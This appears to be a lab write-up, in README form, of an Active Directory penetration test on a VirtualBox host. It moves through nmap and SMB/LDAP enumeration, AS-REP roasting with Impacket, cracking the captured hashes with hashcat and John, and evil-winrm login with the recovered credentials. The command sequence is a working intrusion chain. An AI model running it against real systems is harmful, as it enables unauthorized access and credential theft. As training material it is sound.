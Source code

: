 # SMB and Network Scanning Instructions

## 1) Install `arp-scan`
`arp-scan` sends ARP requests to all IP addresses on a local network.

```bash
sudo apt update
sudo apt install arp-scan
```

## 2) Run the Provided Script
The script runs a simple one-liner to scan each network adapter to check for an IP.

If the script can't be executed, change the permissions:

```bash
chmod +x arp-scan.sh
```

## 3) Run `nmap` on Returned IP Addresses
`nmap` is a network exploration and security/port scanning tool.

```bash
nmap -sV -sC -vv -p- -Pn <IP>
```

- `-sV`: Probe open ports to determine service/version info
- `-sC`: Run default scripts to check for common vulnerabilities
- `-vv`: Increase verbosity for detailed info
- `-p-`: Scan all 65535 TCP ports

### What Did I Learn?
- Open ports like 53 (DNS), 88 (Kerberos), 135 (RPC), 139/445 (SMB), 389/3268 (LDAP)
- HTTPAPI on 5985, 47001; .NET Message Framing on 9389
- RPC activity indicates administrative functions
- SMB signing is enabled
- Host runs in Oracle VirtualBox
- Appears to be a Windows server in an Active Directory domain

## 4) Use `smbmap` to Enumerate SMB Shares

```bash
smbmap -H 192.168.56.107
```

## 5) Use `enum4linux-ng` for SMB/NetBIOS Enumeration

```bash
enum4linux-ng 192.168.56.107
```

## 6) Use `crackmapexec` to Enumerate SMB Info

```bash
crackmapexec smb 192.168.56.107
```

## 7) Evaluation of Scan Tools
The most useful tools:
- **Nmap**: Gave version info, open ports, domain data
- **Enum4linux-ng**: Confirmed domain name, Windows version, and SMB protocols

Most detailed info was denied due to permission restrictions. LDAP and MSRPC can be used to pull more data.

## 8) Test with `smbclient`

```bash
smbclient -L 192.168.56.107 -U ""
```

Anonymous login currently grants access. This should be disabled for better security.

## 9) Try `rpcclient`

```bash
rpcclient -N -U '' 192.168.56.107
```

Run `enumdomusers` — might get permission denied, but can still retrieve user data.

## 10) LDAP Enumeration

To get base naming context:

```bash
ldapsearch -H ldap://192.168.56.107 -x -s base namingcontext
```

To search for users:

```bash
ldapsearch -H ldap://192.168.56.107 -x -b"DC=skypia,DC=org" '(objectClass=User)' "sAMAccountName" | grep "sAMAccountName"
```

## 11) Use Impacket and Hashcat

```bash
impacket-GetNPUsers -dc-ip 192.168.56.107 -request 'skypia.org/'
```

Then:

```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
hashcat hash-jemmie.txt /usr/share/wordlists/rockyou.txt
```

Alternatively, use John the Ripper:

```bash
john --format=krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt poskus1.txt
```

## 12) Use `rpcclient` with Found Credentials

```bash
rpcclient -U "jemmie.blondell" 192.168.56.107
```

More users may now be visible.

## 13) Access Target with `evil-winrm`

```bash
evil-winrm -i 192.168.56.107 -u jemmie.blondell -p winter
```

Check the target system after login.

## 14) Check Permissions via `smbmap`

```bash
smbmap -H 192.168.56.107 -u "jemmie.blondell" -p winter
```

Explore accessible directories and check for higher privileged users.

## 15) Connect with `smbclient`

```bash
smbclient //192.168.56.107/ -U "jemmie.blondell"
```

Use it to access specific shares with valid credentials.
